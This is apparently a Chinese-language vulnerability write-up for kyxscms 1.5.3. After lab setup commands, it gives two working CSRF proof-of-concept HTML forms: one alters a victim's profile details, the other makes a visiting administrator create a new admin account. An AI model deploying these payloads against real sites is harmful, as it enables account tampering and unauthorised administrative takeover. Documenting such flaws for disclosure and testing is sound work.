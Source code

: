 ### kyxscms（狂雨小说）

```
版本信息：1.5.3
# 拉取镜像
docker pull sqlsec/alpine-lamp

# 运行容器 记住要指定密码
docker run -d -p 8080:80 -e MYSQL_ROOT_PASSWORD=root sqlsec/alpine-lamp

安装php7-fileinfo
apk add php7-fileinfo
```

#### CSRF修改个人签名

首先注册一个普通用户，然后抓包构造恶意代码

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.81.195:12343/user/user/info.html" method="POST">
      <input type="hidden" name="email" value="test&#64;qq&#46;com" />
      <input type="hidden" name="introduce" value="test" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

然后将引导受害者访问恶意文件，受害者在火狐浏览器登录了账号的情况下访问了该恶意文件，个人信息即可被修改

受害者原信息

![image-20221121161025167](images/image-20221121161025167.png)

访问恶意文件后

![image-20221121161107270](images/image-20221121161107270.png)

![image-20221121161124187](images/image-20221121161124187.png)

#### CSRF添加管理员

目前只有一个管理员

![image-20221121162441513](images/image-20221121162441513.png)

构造恶意文件诱导管理员访问

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.81.195:12343/admin/member/add.html" method="POST">
      <input type="hidden" name="username" value="test2" />
      <input type="hidden" name="password" value="123456" />
      <input type="hidden" name="repassword" value="123456" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

成功添加管理员

![image-20221121162526088](images/image-20221121162526088.png)

利用添加的管理员登录

![image-20221121162616751](images/image-20221121162616751.png)


